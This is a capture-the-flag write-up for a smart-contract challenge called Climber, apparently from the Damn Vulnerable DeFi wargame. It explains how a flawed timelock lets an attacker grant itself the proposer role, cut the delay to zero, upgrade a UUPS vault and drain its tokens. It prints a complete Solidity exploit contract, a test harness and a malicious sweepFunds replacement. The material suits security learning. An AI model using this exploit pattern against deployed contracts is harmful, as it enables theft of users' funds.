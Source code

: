 # Challenge #12 - Climber    
 There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the UUPS pattern.

 The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.

 On the vault there's an additional role with powers to sweep all tokens in case of an emergency.

 On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.

 Your goal is to empty the vault. 

## Privilege escalation 
In this challenge, we are able to escalate to admin privileges to execute admin level functions. 
The most important one beeing the ``upgradeToAndCall()`` in the UUPS proxy contract which enables an 
attacker to change the contract logic of the proxy contract and drain the funds manipulating the 
``sweepFunds()`` in the ``ClimberVault.sol`` smart contract.  

The exploit starts in the ``ClimberTimelock.sol`` smart contract as we have the ability to
delegatecall functions with the ``execute()``. In order to call this function we have to first 
schedule the tasks which require the sender to be part of a POSPONER_ROLE. Luckily, for us 
the execute() only checks if the tasks has been scheduled after all the tasks have been executed, beeing 
vulnerable to exploit. 

## Exploit Smart Contract Code
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Itimelock {
    function schedule(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external;

	function execute(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external payable;
}

contract EXPLOIT_CLIMBER {
	Itimelock timelock;
	address[] targets;
	uint256[] values; 
	bytes[] dataElements;
	bytes32 salt;

	function exec(
		address _timelock, 
		address _vault,
		address _vaultV2,
		address _token
	) 
	external {
		// Update delay to 0
		targets.push(_timelock);
		values.push(0);
		dataElements.push(abi.encodeWithSignature("updateDelay(uint64)",0));

		// Add attacker to PROSPOSER_ROLE
		targets.push(_timelock);
		values.push(0);
		dataElements.push(
			abi.encodeWithSignature("grantRole(bytes32,address)",keccak256("PROPOSER_ROLE"), address(this))
		);

		// Upgrade Contract
		targets.push(_vault);
		values.push(0);
		dataElements.push(abi.encodeWithSignature("upgradeToAndCall(address,bytes)",
			_vaultV2,
			abi.encodeWithSignature("sweepFunds(address,address)", _token, msg.sender)
		));

		// Schedule tasks
		targets.push(address(this));
		values.push(0);
		dataElements.push(abi.encodeWithSignature("schedule()"));
		
		// Init contract
		salt = "sigkill9";
		timelock = Itimelock(_timelock);
		timelock.execute(targets, values, dataElements, salt); 
	}

	function schedule() external {
		timelock.schedule(targets, values, dataElements, salt);
	}
}

```
Finnally, execute the exploit.
```js
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
		this.exploit = await (await ethers.getContractFactory('EXPLOIT_CLIMBER', attacker)).deploy();
		this.vaultV2 = await (await ethers.getContractFactory("ClimberVaultV2", attacker)).deploy();
		await this.exploit.exec(
			this.timelock.address, 
			this.vault.address,
			this.vaultV2.address,
			this.token.address
		);
    });
```
For the new smart contract I upload in ``ClimberVaultV2`` I only change the swapFunds() to drain the funds.  
```sol
    // Allows attacker to drain funds 
    function sweepFunds(address tokenAddress, address recipient) external onlyOwner {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(recipient, token.balanceOf(address(this))), "Transfer failed");
    }
```
